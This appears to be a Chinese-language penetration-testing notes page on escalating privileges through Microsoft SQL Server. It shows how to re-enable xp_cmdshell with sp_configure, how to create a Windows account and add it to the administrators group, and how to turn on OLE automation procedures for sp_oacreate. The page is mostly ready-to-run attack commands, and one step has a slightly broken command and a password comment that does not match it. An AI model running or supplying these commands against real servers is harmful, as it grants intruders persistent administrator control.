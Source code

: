 #### xp_cmdshell

`xp_cmdshell`是一个存储过程，默认在 mssql2000中是开启的，在mssql2005之后的版本中则默认禁止（这里2008就是禁用的）。

如果用户拥有管理员sa权限（前提）则可以用 sp_configure 重新开启它。

**流程：**

1. 连接上数据库后用sql命令处执行该命令，就能成功的创建一个账户aaa并且加到管理员组

   ```
   exec xp_cmdshell 'net user aaa aaa /add && net localgroup administrators aaa /add'
   ```

2. 若执行失败，用该语句判断`xp_cmdshell`是否存在，若是返回1是存在的

   ```
   select count(*)from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell' ;
   ```

3. 开启`xp_cmdshell`

   ```
   EXEC sp_configure 'show advanced options',1//允许修改高级参数 
   RECONFIGURE 
   EXEC sp_configure 'xp_cmdshell',1  //打开xp_cmdshell扩展 
   RECONFIGURE
   ```

4. 使用以下命令进行提权

   ```
   exec master..xp_cmdshell 'net user test pinohd123. /add'    添加用户test，密码test
   exec master..xp_cmdshell 'net localgroup administrators test add'    添加test用户到管理员组
   ```

5. 可以使用以下命令关闭`xp_cmdshell`

   ```
   exec sp_configure 'show advanced options', 1;reconfigure; 
   exec sp_configure 'xp_cmdshell', 0;reconfigure
   ```



#### sp_oacreate

在xp_cmdshell被删除的时候，可以考虑使用sp_oacreate

该提权方式主要是用来调用 OLE 对象，利用 OLE 对象的 run 方法执行系统命令。

开启：

```
exec sp_configure 'show advanced options',1;reconfigure; 
exec sp_configure 'ole automation procedures',1;recofigure;
```

关闭：

```
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',0;reconfigure;
exec sp_configure 'show advanced options',0;reconfigure;
```
